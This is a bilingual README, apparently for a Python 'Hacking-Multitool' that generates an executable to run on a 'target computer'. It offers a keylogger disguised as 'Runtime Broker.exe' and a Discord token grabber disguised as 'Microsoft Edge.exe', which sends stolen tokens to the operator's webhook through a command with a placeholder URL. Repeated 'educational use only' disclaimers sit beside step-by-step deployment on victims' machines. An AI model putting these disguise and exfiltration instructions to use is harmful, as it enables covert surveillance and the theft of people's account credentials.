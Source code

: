 # 🛠️ Hacking-Multitool

![Python](https://img.shields.io/badge/Python-3.8%2B-blue?logo=python)
![Educational](https://img.shields.io/badge/For%20Educational%20Use%20Only-orange)
![Auto-Install](https://img.shields.io/badge/Auto--Install-Yes-brightgreen)

---

## 📑 Sommaire / Table of Contents

- [🇫🇷 Français](#-français)
- [🇬🇧 English](#-english)

---

## 🇫🇷 Français

> **⚠️ Ce projet est uniquement à but éducatif. N'utilisez pas cet outil à des fins illégales !**

### ❓ Qu'est-ce que c'est ?

Notre Multitool est un outil de cybersécurité simple, basé sur Python.  
**⚠️ Ce programme n'est absolument pas sécurisé. Les autorités peuvent vous retrouver en quelques secondes. Utilisez-le à vos risques et périls.**  
Ce code n'a pas été créé pour le piratage, **UNIQUEMENT POUR L'APPRENTISSAGE**.

---

### ✅ Prérequis

🎉 **Bonne nouvelle ! Aucun prérequis !**  
Tout est installé automatiquement lors du setup.

---

### 🚀 Installation

1️⃣ Télécharge et extrait les fichiers dans le dossier de ton choix.  
2️⃣ Ouvre le terminal (cmd) et lance :  
```bash
python setup.py
```
3️⃣ Suis les instructions à l'écran.  
4️⃣ Récupère l'exécutable généré et utilise-le selon tes besoins sur l'ordinateur cible.

> **❗ N'UTILISE PAS CET OUTIL POUR LE PIRATAGE !**

---

### 🕹️ Utilisation

#### ⌨️ Keylogger

1. Exécute le programme sur l'ordinateur cible. (Le fichier est caché sous le nom **"Runtime Broker.exe"**)
2. Pour arrêter le keylogger, termine le processus **Runtime Broker.exe** dans le gestionnaire des tâches (attention à fermer le bon !)

---

#### 🕵️‍♂️ Discord Token Grabber

1. Exécute sur l'ordinateur cible avec la commande suivante :
```bash
Microsoft Edge.exe VOTRE_WEBHOOK_URL
```
2. Les tokens trouvés seront envoyés sur votre Discord via le webhook.

---

### 🎓 Profite de ton apprentissage en cybersécurité !

---

## 🇬🇧 English

> **⚠️ This project is for educational purposes only. Do not use this tool for illegal activities!**

### ❓ What is it?

Our Multitool is a simple cybersecurity tool based on Python.  
**⚠️ This program is absolutely not secure. Authorities can find you in seconds. Use at your own risk.**  
This code was not created for hacking, **FOR LEARNING PURPOSES ONLY**.

---

### ✅ Requirements

🎉 **Good news! No requirements!**  
Everything is installed automatically during setup.

---

### 🚀 Installation

1️⃣ Download and extract the files to any folder you want.  
2️⃣ Open the terminal (cmd) and run:  
```bash
python setup.py
```
3️⃣ Follow the on-screen instructions.  
4️⃣ Retrieve the generated executable and use it as needed on the target computer.

> **❗ DO NOT USE THIS TOOL FOR HACKING!**

---

### 🕹️ Usage

#### ⌨️ Keylogger

1. Run the program on the target computer. (The file is hidden under the name **"Runtime Broker.exe"**)
2. To stop the keylogger, end the **Runtime Broker.exe** process in the task manager (be careful to close the right one!)

---

#### 🕵️‍♂️ Discord Token Grabber

1. Run on the target computer with the following command:
```bash
Microsoft Edge.exe YOUR_WEBHOOK_URL
```
2. The found tokens will be sent to your Discord via the webhook.

---

### 🎓 Enjoy your cybersecurity learning!

---

